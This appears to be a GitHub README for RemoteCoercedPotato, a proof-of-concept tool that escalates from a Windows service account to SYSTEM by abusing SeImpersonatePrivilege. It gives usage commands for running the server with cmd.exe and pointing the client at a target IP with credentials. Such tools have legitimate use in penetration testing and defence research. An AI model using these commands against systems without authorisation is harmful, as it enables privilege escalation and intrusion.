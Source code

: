 # RemoteCoercedPotato


```txt
Remote
   ____                            _ ____       _        _        
  / ___|___   ___ _ __ ___ ___  __| |  _ \ ___ | |_ __ _| |_ ___  
 | |   / _ \ / _ \ '__/ __/ _ \/ _` | |_) / _ \| __/ _` | __/ _ \ 
 | |__| (_) |  __/ | | (_|  __/ (_| |  __/ (_) | || (_| | || (_) |
  \____\___/ \___|_|  \___\___|\__,_|_|   \___/ \__\__,_|\__\___/ 
                                                                  
                                           @Hack0ura @Prepouce                         
```

A quick POC of a Coerced Patate but remotly (just for fun).

From Patate (LOCAL/NETWORK SERVICE) to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10, Windows 11 and Server 2022.

For more information: [https://blog.hackvens.fr/articles/CoercedPotato.html](https://blog.hackvens.fr/articles/CoercedPotato.html) (The english version is coming soon!! 😄)

## Usage 

First, you can check the help message using the `--help` option.

A very quick PoooooC:

- Without random namedpipe (default):
```txt
    ./CoercedPotatoServer.exe -c cmd.exe
```
```txt
    ./CoercedPotatoClient.py -u user -p password 127.0.0.1 [targeted_IP]
```

 - With a random namedpipe, given by CoercedPotatoServer.exe: 
```txt 
    ./CoercedPotatoServer.exe -c cmd.exe -r true 
```
```txt        
    ./CoercedPotatoClient.py -n [randomnamedpipe] -u user -p password -r true 127.0.0.1 [targeted_IP] 
```

![2024-05-28_17-19](https://github.com/Prepouce/RemoteCoercedPotato/assets/144021275/ad4bd837-8ac8-4947-955f-aad7c9336c7b)


## Todo 
 
- Implemention of MS-RPRN interfacce 
    
- Creation a powershell of a bytecode version of the namedPipe server 


Made in France 🇫🇷 with <3
